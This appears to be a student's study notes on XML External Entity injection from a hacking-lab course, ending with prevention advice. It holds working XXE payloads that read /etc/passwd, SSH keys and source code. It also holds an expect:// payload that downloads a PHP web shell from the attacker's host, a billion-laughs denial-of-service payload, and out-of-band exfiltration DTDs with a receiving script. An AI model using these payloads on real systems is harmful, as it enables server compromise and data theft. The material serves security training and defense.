










# XML External Entity (XXE) Injection

... vulnerabilites occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow you to use XML features to perform malicious actions.

## Intro

### XML

Extensible Markup Language (_XML_) is a common markup language designed for flexible transfer and storage of data and documents in various types of applications. XML is not focused on displaying data but mostly on storing documents' data and representing data structures. XML documents are formed of element trees, where each element is essentially denoted by a tag, and the first element is called the root element, while other elements are child elements.

Example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

The above example shows some of the key elements of an XML document:

| Key | Definition | Example |
| --- | ---------- | ------- |
| **Tag** | the keys of an XML document, usually wrapped with ```<``` / ```>``` chars | ```<date>``` |
| **Entity** | XML variables, usually wrapped with ```&``` / ```;``` chars | ```&lt;``` |
| **Element** | the root element or any of its child elements, and its value is stored in between a start-tag and end-tag | ```<date>01-01-2022</date>``` |
| **Attribute** | optional specifications for any element that are stored in the tags, which may be used by the XML parser | ```version="1.0"``` / ```encoding="UTF-8"``` |
| **Declaration** | usually the first line of an XML document, and defines the XML version and encoding to use when parsing | ```<?xml version="1.0" encoding="UTF-8"?>``` |

Furthermore, some chars are used as part of an XML document structure, like ```<```, ```>```, ```&```, or ```"```. So, if you need to use them in an XML document, you should replace them with their corresponding entity reference. Finally, you can write comments in XML documents between ```<!--``` and ```>```, similar to HTML documents.

### XML DTD

XML Document Type Definition (_DTD_) allows the validation of an XML document against a pre-defined document structure. The pre-defined document structure can be defined in the document itself or in an external file. The following is an example DTD for the XML document you saw earlier:

```xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

As you can see, the DTD is declaring the root ```email``` element with the ```ELEMENT``` type declaration and then denoting its child elements. After that, each of the child elements is also declared, where some of them also have child elements, while other may only contain raw data.

The above can be placed within the XML document itself, right after the XML Declaration in the first line. Otherwise, it can be stored in an external file, and then referenced within the XML document with the ```SYSTEM``` keyword, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```

It also possible to reference a DTD through a URL, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```

### XML Entities

You may also define custom entities in XML DTDs, to allow refactoring of variables and reduce repetitive data. This can be done with the use of the ENTITY keyword, which is followed by the entity name and its value, as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Once you define, it can be referenced in an XML document between an ```&``` and a ```;```. Whenever an entity is referenced, it will be replaced with its value by the XML parser. Most interestingly, however, you can reference External XML Entities with the ```SYSTEM``` keyword, which is followed by the external entity.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

> [!NOTE]
> You may also use the ```PUBLIC``` keyword instead of ```SYSTEM``` for loading external resources, which is used with publicly declared entities and standards, such as language code (```lang="en"```).

This works similar to internal XML entities defined within documents. When you reference an external entity, the parser will replace the entity with its value stored in the external file. When the XML file is parsed on the server-side, in cases like SOAP APIs or web forms, then an entity can reference a file stored on the back-end server, which eventually be disclosed to you when you reference the entity.

## Local File Disclosure

When a web app trusts unfiltered XML data from user input, you may be able to reference an external XML DTD document and define new custom XML entities. Suppose you can define new entities and have them displayed on the web page. In that case, you should also be able to define external entities and make them reference a local file, which, when displayed, should show you the content of that file on the back-end server.

### Identifying

The first step in identifying potential XXE vulns is finding web pages that accept an XML user input.



If you fill the contact form and click on ```Send Data```, then intercept the HTTP request, you get the following request:



As you can see, the form seems to be sending your data in XML format to the web server, making this a potential XXE testing target. Suppose the web app uses outdated XML libraries, and it does not apply any filters or sanitization on your XML input. In that case, you may be able to exploit this XML form to read local files.

If you send the form without any modifications, you get a message saying ```Check your email email@xxe.htb for further instructions.```. This helps you, because now you know which elements are being displayed, so that you know which elements to inject into.

For now, you know that whatever value you place in the ```<email></email>``` element gets displayed in the HTTP response. Try to define a new entity and then use it as a variable. To do so, add the following lines after the first line in the XML input:

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Now, you should have a new XML entity called ```company```, which you can reference with ```&company;```. So, instead of using your email in the ```email``` element, try using ```&company;```, and see whether it will be replaced with the value you defined.



As you can see, the response did use the value of the entity you defined instead of displaying ```&company;```, indicating that you may inject XML code. In contrast, a non-vulnerable web app would display it as a raw value. This confirms that you are dealing with a web app vulnerable to XXE.

> [!NOTE]
> Some web apps may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, you can try changing the ```Content-Type``` header to ```application/xml```, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm).

### Reading Sensitive Files

Now that you can define new internal XML entities try to define external XML entities by just adding the ```SYSTEM``` keyword and define the external reference path after it.

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

Request & response example:



You see that you did indeed get the content of the file, meaning that you have successfully exploited the XXE vulnerability to read local files. This enables you to read the content of sensitive files, like config files that may contain passwords or other sensitive files like an ```id_rsa``` SSH key of a specific user, which may grant you access to the back-end server.

### Reading Source Code

Another benefit of local file disclosure is the ability to obtain the source code of the web app. This would allow you to perform a Whitebox Penetration Test to unveil more vulnerabilities in the web app, or at the very least reveal secret configurations like database passwords or API keys.

Trying to read ```index.php```:



As you can see, this did not work, as you did not get any content. This happenend because the file you are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity. If a file contains some of XML's special characters, it would break the external entity reference and not be used for the reference. Furthermore, you cannot read any binary data, as it would also not conform to the XML format.

Luckily, PHP provides wrapper filters that allow you to base64 encode certain resources 'including files', in which case the final base64 output should not break the XML format. To do so, instead of using ```file://``` as your reference, you will use PHP's ```php://filter/``` wrapper. With this filter, you can specify the ```convert.base64-encode``` encoder as your filter, and then add an input resource as follows:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```



This trick will only work with PHP web apps.

### Remote Code Execution

In addition to reading local files, you may be able to gain code execution over the remote server. The easiest method would be to look for ```ssh``` keys, or attempt to utilize a hash stealing trick in Windows-based web apps, by making a call to your server. If these do not work, you may still be able to execute commands on PHP based web apps through the ```PHP://expect``` filter, though this requires the PHP ```expect``` module to be installed and enabled.

If the XXE directly prints its output, then you can execute basic commands as ```expect://id```, and the page should print the command output. However, if you did not have access to the output, or needed to execute a more complicated command then the XML syntax may break and the command may not execute.

The most efficient way to turn XXE into RCE is by fetching a web shell from your server and writing it to the web app, and then you can interact with it to execute commands. To do so, you can start by writing a basic PHP web shell and starting a python web server:

```bash
d41y@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
d41y@htb[/htb]$ sudo python3 -m http.server 80
```

Now, you can use the following XML code to execute a ```curl``` command that downloads your web shell into the remote server.

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

> [!NOTE]
> Replace all spaces with ```$IFS```, to avoid breaking the XML syntax. Furthermore, many other chars like ```|```, ```>```, and ```{``` may break the code, so you should avoid using them.

Once you send the request, you should receive a request on your machine for the ```shell.php``` file, after which you can interact with the web shell on the remote server for code execution.

### Other XXE Attacks

Another common attack often carried out through XXE vulns is SSRF exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vuln.

Finally, one common use of XXE attacks is causing a DOS to the hosting web server, with the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

This payload defines the ```a0``` entity as ```DOS```, reference it in ```a1``` multiple times, references ```a1``` in ```a2```, and so on until the back-end server's memory runs out due to self-reference loops. However, this attack no longer works with modern web servers, as they protect against entity self-reference.

## Advanced File Disclosure

### ... with CDATA

To output data that does not conform to the XML format, you can wrap the content of the external file reference with a ```CDATA``` (e. g. ```<![CDATA[ FILE_CONTENT ]]>```). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special chars.

One easy way to tackle this issue would be to define a ```begin``` internal entity with ```<![DATA[```, and an ```end``` internal entity with ```]]>```, and then place your external entity file in between, and it should be considered as a ```CDATA``` element:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if you reference the ```&joined;``` entity, it should contain your escaped data. However, this will not work, since XML prevents joining internal and external entities, so you will have to find a better way to do so.

Ty bypass this limitation, you can utilize XML Parameter Entities, a special type of entity that starts with a ```%``` char and can only be used within the DTD. What's unique about parameter entities is that if you reference them from an external source, then all of them would be considered as external and can be joined.

```xml
<!ENTITY joined "%begin;%file;%end;">
```

Trying to tead the ```submitDetails.php``` file by first storing the line in a DTD file, host it on your machine, and then reference it as an external entity on the target web app:

```bash
d41y@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
d41y@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, you can reference your external body entity and then print the ```&joined;``` entity you defined above, which should contain the content of the ```submitDetails.php``` file:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once you write your ```xxe.dtd``` file, host it on your machine, and then add the above lines to your HTTP request to the vulnerable web app, you can finally get the content of the ```submitDetails.php``` file:



As you can see, you were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

### Error Based XXE

Another situation you may find yourself in is one where the web app might not write any output, so you cannot control any of the XML input entities to write its content. In such cases, you would be blind to the XML output and so would not be able to retrieve the file content using your usual methods.

If the web app displays runtime errors and does not have proper exception handling for the XML input, then you can use this flaw to read the output of the XXE exploit. If the web app neither writes XML output nor displays any errors, you would face a completely blind situation.

Consider the scenario in which none of the XML input entities is displayed to the screen. Because of this, you may have no entity that you can control to write the file output. First, let's try to send malformed XML data, and see if the web app displays any errors. To do so, you can delete any of the closing tags, change one of them, so it does not close, or just reference a non-existing entity:



You see that you did indeed cause the web app to display an error, and it also revealed the web server directory, which you can use to read the source code of other files. Now, you can exploit this flaw to exfiltrate file content. To do so, you will use a similar technique to what you used earlier. First, you will host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the ```file``` parameter entity and then joins it with an entity that does not exist. In your previous exercise, you were joining three strings. In this case, ```%nonExistingEntity;``` does not exist, so the web application would throw an error saying that this entity does not exist, along with your joined ```%file;``` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad chars in the referenced file.

Now, you can call your external DTD script, and then reference the ```error``` entity:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once you host your DTD script as you did earlier and send the above payload as your XML data, you will get the content of the ```/etc/hosts``` file:



This method may also be used to read the source code of files. All you have to do is change the file name in your DTD script to point to the file you want to read. However, this method is not as reliable as the previous method for reading source files, as it may have length limitations, and certain special characters may still break it.

## Blind Data Exfiltration

### Out-of-band Data Exfiltration

For cases in which there is nothing printed on the web app, you can utilize a method known as out-of-band Data Exfiltration, which is often used in similar blind cases with many web attacks, like blind SQLi, blind command injection, blind XSS, and blind XXE.

In the previous sections, you utilized an out-of-band attack since you hosted the DTD file in your machine and made the web application connect to you. So, your attack this time will be pretty similar, with on significant difference. Instead of having the web app output your file entity to a specific XML entity, you mill make the web app send a web request to your web server with the content of the ```file``` you are reading.

To do so, you can first use a parameter entity for the content of the file you are reading while utilizing PHP filter to base64 encode it. Then, you will create another external parameter entity and reference it to your IP, and place the ```file``` parameter value as part of the URL being requested over HTTP:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, the file you want to read had the content of ```XXE_SAMPLE_DATA```, then the file parameter would hold its base64 encoded data (_```WFhFX1NBTVBMRV9EQVRB```_). When the XML tries to reference the external ```oob``` parameter from your machine, it will request ```http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB```. Finally, you can decode the ```WFhFX1NBTVBMRV9EQVR``` string to get the content of the file. You can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal.

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, you will first write the above PHP code to ```index.php```, and then start a PHP server on port 8000:

```bash
d41y@htb[/htb]$ vi index.php # here we write the above PHP code
d41y@htb[/htb]$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Now, to initiate your attack, you can use a similar payload to the one you used in the error-based attack, and simply add ```<root>&content;</root>```, which is needed to reference your entity and have it send the request to your machine with the file content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Send the request:



Go back to your terminal:

```bash
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

### Automated OOB Exfiltration

Although in some instances you may have to use the manual method you learned above, in many other cases, you can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector).

To use this tool for automated OOB exfiltration you first need to clone it.

Once you have the tool, you can copy the HTTP request from Burp and write it to a file for the tool to use. You should not include the full XML data, only the first line, and write XXEINJECT after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now you can run the tool with the ```--host``` / ```--httpport``` flags being your IP and port, the ```--file``` flag being the file you wrote above, and the ```--path``` flag being the file you want to read. You will also select the ```--oob=http``` and ```--phpfilter``` flags to repeat the OOB attack:

```bash
d41y@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

You see that the tool did not directly print the data. This is because you are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the ```Logs``` folder under the tool, and you can find your file there:

```bash
d41y@htb[/htb]$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

## XXE Prevention

### Avoiding Outdated Components

While other input validation web vulns are usually prevented through secure coding practices, this is not entirely necessary to prevent XXE vulns. This is because XML input is usually not handled manually by the web developers but by the built-in XML libraries instead. So, if a web app is vulnerable to XXE, this is very likely due to an outdated library that parses the the XML data.

In addition to updating the XML libraries, you should also update any components that parse XML input, such as API libraries like SOAP. Furthermore, any document or file processors that may perform XML parsing, like SVG image processors or PDF document processors, may also be vulnerable to XXE vulns, and you should update them as well.

These issues are not exclusive to XML libraries only, as the same applies to all other web components. In addition to common package managers, common code editors will notify web devs of the use of outdated components and suggest other alternatives. In the end, using the latest XML libraries and web development components can greatly help reduce various web vulns.

### Using Safe XML Configs

Other than using the latest XML libraries, certain XML configs for web apps can help reduce the possibility of XXE exploitation. These include:

- disable referencing custom Document Type Definitions
- disable referencing External XML Entities
- disable Parameter Entity processing
- disable support for XInclude
- prevent Entity Reference Logs

Another thing you saw was Error-based XXE exploitation. So you should always have proper exception handling in your web apps and should always disable displaying runtime errors in web servers.

Such configs should be another layer of protection if you miss updating some XML libraries and should also prevent XXE exploitation. However, you may still be using vulnerable libraries in such cases and only applying workarounds against exploitation, which is not ideal.

With the various issues and vulnerabilities introduced by XML data, many also recommend using other formats, such as JSON or YAML. This also includes avoiding API standards that rely on XML and using JSON-based APIs instead.

Finally, using WAFs is another layer of protection against XXE exploitation. However, you should never entirely rely on WAFs and leave the back-end vulnerable, as WAFs can always be bypassed.